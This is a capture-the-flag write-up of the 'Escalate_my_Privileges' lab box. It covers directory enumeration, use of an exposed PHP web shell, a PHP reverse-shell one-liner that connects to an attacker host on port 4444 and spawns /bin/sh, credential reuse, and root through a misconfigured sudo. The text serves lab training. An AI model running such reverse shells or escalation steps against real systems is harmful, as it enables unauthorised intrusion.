









Simon McCabe
OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert

OSCP · OSWP · PWPP · PWPA · PAPA · EnCE · Linux+ · LPIC-1 · Network+ · Security+ · Pentest+ · eJPT · eWPT · BSc · PGCert
...Escalate_my_Privileges Writeup...

First, I ran dirb and it identified a few interesting directories to get me started.

I went to the phpbash.php file first, as this sounded the most interesting:

It turns out that there's a nice web-based shell we can use. Nice and secure, huh?!
I went over to pentest-monkey and used the php reverse shell to get a connection on my attacking VM.
apache@my_privilege:/backup/armour#
php -r '$sock=fsockopen("192.168.1.100",4444);exec("/bin/sh -i <&3 >&3 2>amp;3");'
As expected, I was running as apache. For some reason, every command I typed doubled-up, so id became iidd, but it still worked:

From here, I went into the /home directory, and saw a user called "armour". In the armour directory, there was a file called "Credentials.txt". Inside it said: "md5(rootroot1)".

Next I switched user to "armour" and used the md5 hash as the password. I was now "armour":

I ran "sudo -l" and noticed that a few things seemed mis-configured!

I ran: "sudo /bin/sh" and I was now root:

I looked to see whether the root user had a flag, and it did:

And that was that. Nice basic box. Thanks Akanksha for the challenge!
🍺 Quick message to readers: if my writeups help you, please consider a small donation to my buymeacoffee link here. This is not required but is very much appreciated! 🍺